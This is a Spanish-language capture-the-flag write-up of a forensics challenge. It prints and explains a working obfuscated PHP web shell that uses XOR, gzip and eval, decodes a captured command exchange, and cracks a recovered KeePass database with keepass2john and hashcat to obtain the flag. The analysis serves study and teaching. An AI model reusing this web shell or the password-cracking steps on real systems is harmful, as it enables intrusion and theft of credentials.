

Para este laboratorio se nos proporcionan 3 ficheros: 


Podemos intentar ver lo que contiene el fichero con `cat`


Nos aparecerá un código ofuscado, en mi caso le pedí a GPT que lo desofuscara y me esplicara cómo funciona: 

## 1. Definición de variables clave

```php
$k  = "80e32263";             // clave XOR para cifrar/descifrar
$kh = "6f8af44abea0";         // marcador de inicio
$kf = "351039f4a7b5";         // marcador de fin
$p  = "0UlYyJHG87EJqEz6";     // prefijo impreso antes de los datos finales
```

* **\$k**: cadena de bytes que se usa como “clave” en el proceso XOR.
* **\$kh** y **\$kf**: marcadores fijos que señalan el comienzo y el fin del payload cifrado dentro del cuerpo de la petición HTTP.
* **\$p**: prefijo adicional que acompaña siempre al resultado cifrado, quizá para identificar respuestas legítimas del servidor.

---

## 2. Función de “rolling XOR”

```php
function x($t, $k) {
    $c = strlen($k);
    $l = strlen($t);
    $o = "";
    for ($i = 0; $i < $l; ) {
        for ($j = 0; $j < $c && $i < $l; $j++, $i++) {
            // toma el byte $i de $t, lo XORea con el byte $j de $k
            $o .= $t[$i] ^ $k[$j];
        }
    }
    return $o;
}
```

* Recorre el texto **\$t** (ya sea plaintext o ciphertext) y, byte a byte, lo combina con la clave **\$k** de manera cíclica (cuando llega al final de **\$k**, vuelve al principio).
* El operador `^` en PHP aplica XOR bit a bit entre dos caracteres (sus valores numéricos ASCII).
* Al usar la misma función `x()` para cifrar y descifrar (propiedad del XOR: *$A \oplus B$ \oplus B = A*), basta con aplicarla dos veces con la misma clave para recuperar el texto original.

**Ejemplo muy sencillo**

> Texto: `"HELLO"` (bytes `[72,69,76,76,79]`)
> Clave: `"ABC"` (bytes `[65,66,67]`)
>
> * XOR “rolling”:
>
>   * byte 0: 72 ⊕ 65 = 9
>   * byte 1: 69 ⊕ 66 = 7
>   * byte 2: 76 ⊕ 67 = 15
>   * byte 3: 76 ⊕ 65 = 13  (clave vuelve al inicio)
>   * byte 4: 79 ⊕ 66 = 13
> * Resultado (bytes `[9,7,15,13,13]`) es el ciphertext parcial.
> * Aplicando de nuevo `x(ciphertext, "ABC")` recuperamos los bytes originales.

---

## 3. Extracción del payload desde la petición

```php
if (
    @preg_match(
        "/$kh(.+)$kf/",
        @file_get_contents("php://input"),
        $m
    ) == 1
) {
    // …
}
```

1. Lee todo el cuerpo de la petición HTTP con `file_get_contents("php://input")`.
2. Busca una cadena que comience con `$kh`, termine con `$kf` y capture todo lo intermedio (`(.+)`).
3. Si hay coincidencia, en `$m[1]` queda únicamente el bloque base64 codificado que contiene el payload cifrado.

---

## 4. Decodificación y ejecución del payload

```php
@eval(
    @gzuncompress(
        @x(
            @base64_decode($m[1]),
            $k
        )
    )
);
```

Este es el flujo inverso al cifrado:

1. **`base64_decode($m[1])`** → convierte la cadena Base64 en bytes criptográficos.
2. **`x(… , $k)`** → aplica XOR con la clave **\$k** para *descifrar* esos bytes.
3. **`gzuncompress(…)`** → descomprime los datos usando gzip, obteniendo el *código PHP* original.
4. **`eval(…)`** → ejecuta ese código PHP inline.

> **Nota de seguridad**: el uso de `eval()` en código recibido de peticiones HTTP es extremadamente peligroso si no se valida nada. Esto permite la ejecución arbitraria de código malicioso.

---

## 5. Captura de la salida generada

```php
@ob_start();
// … eval ejecuta código que podría imprimir o devolver datos …
$o = @ob_get_contents();
@ob_end_clean();
```

* Se inicia un *buffer* de salida con `ob_start()`.
* Cualquier dato que imprima el payload descifrado queda en el buffer en lugar de enviarse directamente al cliente.
* Con `ob_get_contents()` se extrae todo lo generado y luego se limpia el buffer.

---

## 6. Reempaquetado y respuesta al cliente

```php
$r = @base64_encode(
    @x(
        @gzcompress($o),
        $k
    )
);
print("$p$kh$r$kf");
```

Para devolverle al cliente la salida del payload (por ejemplo, resultados de un comando, un flag, etc.), el script:

1. **`gzcompress($o)`** → comprime con gzip la salida capturada.
2. **`x(…, $k)`** → cifra de nuevo usando XOR con la misma clave.
3. **`base64_encode(…)`** → codifica el ciphertext resultante en Base64.
4. Concatena el prefijo **\$p**, el marcador de inicio **\$kh**, el bloque cifrado **\$r** y el marcador de fin **\$kf**, y lo imprime.

---

## 7. Resumen del flujo completo

1. **Cliente** envía un payload empaquetado así:

   ```
   <datos aleatorios>6f8af44abea0 
     base64( XOR( gzip( <código PHP> ) , "80e32263") ) 
   351039f4a7b5<datos aleatorios>
   ```
2. **Servidor** detecta el marcador `6f8af44abea0 … 351039f4a7b5`.
3. **Servidor** descifra y descomprime, luego ejecuta (`eval`) el código PHP malicioso.
4. **Servidor** captura la salida que genere.
5. **Servidor** vuelve a comprimir, cifrar y codificar, y responde con:

   ```
   0UlYyJHG87EJqEz6 6f8af44abea0 
     base64( XOR( gzip( <salida> ) , "80e32263") ) 
   351039f4a7b5
   ```
6. **Cliente** recibe la respuesta y, si aplica el proceso inverso, recupera el texto original de la salida.

---

### Conclusión

Este mecanismo combina varias capas:

* **XOR “rolling”** para ofuscar datos de forma ligera (y reversible).
* **Compresión gzip** para ocultar patrones del plaintext y reducir tamaño.
* **Base64** para transportar datos binarios en entornos de texto.
* **Marcadores y prefijo** para diferenciar el payload malicioso de otros datos en la petición/respuesta.

---------

Ya sabemos lo que pasa, ahora revisando el fichero que tiene la captura de red podemos ver lo siguiente: 



Claramente el atacante está envíando instrucciones al servidor y éste le envía la salida del commando. 

Así que podemos leer dicha salida modificando `support.php`

```bash 
<?php
// Claves y marcadores
$k  = "80e32263";             // clave XOR para cifrar/descifrar
$kh = "6f8af44abea0";         // marcador de inicio
$kf = "351039f4a7b5";         // marcador de fin
$p  = "0UlYyJHG87EJqEz6";     // prefijo que se imprime antes de los datos finales

// Función de XOR rolling: recorre $t y la “clave” $k
function x($t, $k) {
    $c = strlen($k);
    $l = strlen($t);
    $o = "";
    for ($i = 0; $i < $l; ) {
        for ($j = 0; $j < $c && $i < $l; $j++, $i++) {
            // toma byte $i de $t, lo XORea con byte $j de $k
            $o .= $t[$i] ^ $k[$j];
        }
    }
    return $o;
}

// Lee todo el cuerpo de la petición HTTP (php://input)
// y busca un bloque de datos entre los marcadores $kh y $kf
if (
    @preg_match(
        "/$kh(.+)$kf/",
        @file_get_contents("php://input"),
        $m
    ) == 1
) {
    // Inicia un buffer de salida
    @ob_start();
    // Decodifica el payload: base64 → XOR descifrado → descompresión gzip → eval
    print_r(
        @gzuncompress(
            @x(
                @base64_decode($m[1]),
                $k
            )
        )
    );
}
?>
```

Iniciamos un servidor php con `php -S localhost:4000` y envíamos las peticiones, en mi caso el ichero se llama `2.php`: 

```bash 
┌──(kali㉿kali)-[~/challenges/obs]
└─$ curl -X POST http://localhost:4000/2.php -d "6f8af44abea0QKxO/n6DAwXuGEoc5X9/H3HkMXv1Ih75Fx1NdSPRNDPUmHTy351039f4a7b5"
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

En total son 4, el último es elque nos retorna info en base64, si intentamos leerla con `echo <string-base64> | base64 -d` veremos que retorno un binario, podemos almacenarlo de la siguiente forma: 

```bash 
echo <string-base6> | base64 -d > file.dat
```

Con un `file`: 

```bash 
┌──(kali㉿kali)-[~/challenges/obs]
└─$ file file.dat                                                                                   file.dat: Keepass password database 2.x KDBX
```

Podemos intentar abirlo con `kpli` pero nos pide contraseña: 

```bash 
┌──(kali㉿kali)-[~/challenges/obs]
└─$ kpcli -kdb file.dat
Provide the master password:
```

Podemos crackear esto, primero generando el hash con jhon y despues crackeándo el hash con hashcat: 

```bash 
┌──(kali㉿kali)-[~/challenges]
└─$ keepass2john obs/file.dat > CrackThis.hash

┌──(kali㉿kali)-[~/challenges]
└─$ cat CrackThis.hash
file.dat:$keepass$*2*6000*0*204c86ee9d2e89b4d5ff55ebe51c3cd4bf1a904ccea385ab892c9ce8400cc785*b7a535e876d76745024f20fc3e0d1db75d8fd72929de7bec30a565ef4a5ac6e6*118296757720a8d3ca11e1f170483802*5c6b99d0aab4a0957eb0f988b21818d37c31bb8111f83c0d8512556e4bfd1cc8*aa28fb2ca246bdb19dd3c8b2e8b2cd4f2d9630bac44a3ba26b3dbd13cded845b

┌──(kali㉿kali)-[~/challenges]
└─$ hashcat --help | grep -i "KeePass"                                                                13400 | KeePass 1 (AES/Twofish) and KeePass 2 (AES)                | Password Manager
  29700 | KeePass 1 (AES/Twofish) and KeePass 2 (AES) - keyfile only mode | Password Manager

# le quitamos el "file.dat" del inicio al fichero con el hash y estamos listo para crackearlo con:

hashcat -m 13400 -a 0 CrackThis.hash /usr/share/wordlists/rockyou.txt
```

Con una buena PC encontramos que la contraseña es `chainsaw` y estamos listos para ver la flag con: 

```bash 
┌──(kali㉿kali)-[~/challenges/obs]
└─$ kpcli -kdb file.dat
Provide the master password: *************************

KeePass CLI (kpcli) v3.8.1 is ready for operation.
Type 'help' for a description of available commands.
Type 'help <command>' for details on individual commands.

kpcli:/> ls
=== Groups ===
eMail/
Internet/
Passwords/
kpcli:/> cd Passwords/
kpcli:/Passwords> ls
=== Entries ===
0. Flag                                         github.com/epinna/weevely3
kpcli:/Passwords> show 0

Title: Flag
Uname: artikrh
 Pass: HTB{pr0tect_y0_shellZ}
  URL: https://github.com/epinna/weevely3
Notes:

kpcli:/Passwords> show -f 0

Title: Flag
Uname: artikrh
 Pass: HTB{pr0tect_y0_shellZ}
  URL: https://github.com/epinna/weevely3
Notes:

kpcli:/Passwords>
```
